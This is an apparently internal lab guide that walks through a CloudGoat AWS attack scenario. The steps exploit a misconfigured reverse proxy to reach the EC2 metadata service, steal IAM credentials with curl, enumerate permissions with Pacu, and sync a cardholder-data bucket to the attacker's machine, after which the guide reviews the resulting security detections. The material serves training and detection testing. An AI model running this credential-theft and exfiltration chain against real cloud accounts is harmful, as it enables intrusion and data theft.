 .. _ec2_attack_lab:


===========================
EC2 Attack
===========================

Notes
++++++++++++++++++++++++++++++++
- SE DfAWS Console https://207753870716.uw2.portal.vectra.ai/
- AWS target account vectra-demolab (884414556547)
- AWS attacker VM should be in a different account vectra-se-dev (257321424819)


Setup AWS Profile
=================

- Login with SSO

.. code:: console

   aws sso login --profile sso-demolab

- Export AWS profile path

.. code:: console

   export AWS_PROFILE=sso-demolab 

- Verify credentials are working

.. code:: console

   aws sts get-caller-identity

Setup Cloudgoat
===============
- Run Cloudgoat config profile from home directory and set default profile name to ``sso-demolab``

.. code:: console

   ~/cloudgoat/cloudgoat.py config profile

- Modify Cloudgoat config whitlelist 

.. code:: console

   echo "`curl ifconfig.io`/32" > ~/cloudgoat/whitelist.txt

- Update Cloudgoat config file 

.. code:: console

   wget https://raw.githubusercontent.com/VectraCommunity/cloudgoat/master/scenarios/cloud_breach_s3/terraform/s3.tf -O ~/cloudgoat/scenarios/cloud_breach_s3/terraform/s3.tf

Create vulnerable infrastructure
++++++++++++++++++++++++++++++++

- Now that the tools are setup we will use Cloudgoat to setup vulnerable
  infrastructure in AWS. This will create a scenario with a misconfigured
  reverse-proxy server in EC2.

-  Run the attack scenario

.. code:: console
   
    ~/cloudgoat/cloudgoat.py create cloud_breach_s3

.. figure:: ./images/cloudgoatout.png
   :alt: cgsetup

.. note::  **Copy the response to a text file**.  You will need the EC2 IP

Start attack
============

At this point we have created vulnerable infrastructure in AWS using
Cloudgoat. Starting as an anonymous outsider with no access or
privileges, exploit a misconfigured reverse-proxy server to query the
EC2 metadata service and acquire instance profile keys. Then, use those
keys to discover, access, and exfiltrate sensitive data from an S3
bucket.

Get Role Name
+++++++++++++

-  Replace ``<ec2-ip-address>`` with the IP address from the previous
   step to get a role name. 

.. code:: console

   curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'

.. figure:: ./images/role.png
   :alt: role

.. note:: **Copy the response to a text file**.  You will need the role

Get Credentials
+++++++++++++++

-  Replace ``<ec2-ip-address>`` and ``<ec2-role-name>`` from the
   previous steps to get the keys

.. code:: console

   curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

.. figure:: ./images/ssrf2.png
   :alt: creds

.. note::  **Copy response to text file**.  You will use the stolen credentials

Pacu Discovery 
++++++++++++++

-  Next we will use pacu to do discovery with the stolen credentials

   -  Start pacu from the shell session by running ``~/pacu/cli.py``
   -  Create new session in pacu named ``cloud_breach_s3``
   -  Set the keys using ``set_keys`` from the pacu session using the
      stolen credentials from the previous step

.. figure:: ./images/pacukeys.png
   :alt: keys

Pacu Results
++++++++++++

-  Use pacu to start discovery using the following modules

   -  ``run aws__enum_account`` Get account details: permission denied
   -  ``run iam__enum_permissions`` Get permissions for IAM entity:
      permission denied
   -  ``run iam__enum_users_roles_policies_groups`` Get group polices
      for IAM entity: permission denied
   -  ``run iam__bruteforce_permissions`` Brute force for access to
      services: **BINGO!**

.. figure:: ./images/output.png
   :alt: output

-  The stolen credentials have full access to S3
-  Exit pacu by typing ``exit`` and return to attack
   
Data Exfil
++++++++++

-  Create a new aws profile with stolen credentials

.. code:: console

   aws configure --profile cloud_breach_s3

-  Set the ``AWS Access Key ID`` and ``AWS Secret Access Key`` using the
   stolen credentials

-  Set the “Default region” name and the “Default output” format to
   ``json``

-  Manually add the ``aws_session_token`` to the aws credentials file on the new profile ``cloud_breach_s3``
   (use i for insert mode then esc :wq to save and close)

.. code:: console

   vi  ~/.aws/credentials

.. figure:: ./images/sestoken.png
   :alt: sestoken

-  Use aws cli to list buckets the stolen credentials have access to

.. code:: console
   
    aws s3 ls --profile cloud_breach_s3
   
.. figure:: ./images/list.png
    :alt: list

-  Download data from the ``cardholder-data`` bucket to local system
   home directory. Replace ``<bucket-name>`` with the bucket to download
   data

.. code:: console  
   
   aws s3 sync s3://<bucket-name> ~/cardholder-data --profile cloud_breach_s3

-  Change to home directory and perfom list to verify data was
   downloaded 
   
.. code:: console 
   
    cd && ls
   
.. figure:: ./images/download.png
    :alt: verify

-  Remove vulnerable infrastructure

.. code:: console 

    ~/cloudgoat/cloudgoat.py destroy cloud_breach_s3

-  Attack had been completed. Review the detections in dfaws dashboard

-  Detections visible include: 
   
   - AWS Organization Discovery- A credential was observed enumerating AWS Organization details.
   - AWS User Permissions Enumeration- Control plane APIs associated with the reconnaissance of IAM resources were invoked in a suspicious way that may be associated with a potential privilege escalation attack.
   - AWS Suspicious Credential Usage- A temporary credential generated by an EC2 instance in your environment was observed attempting to access an AWS API from a source that is not EC2.
   - AWS Suspicious EC2 Enumeration- Control plane APIs associated with reconnaissance on EC2 resources were invoked in a suspicious manner. 
   - AWS S3 Enumeration- Control plane APIs associated with the reconnaissance of S3 resources were invoked in a suspicious manner.

.. figure:: ./images/critical.png
   :alt: critical
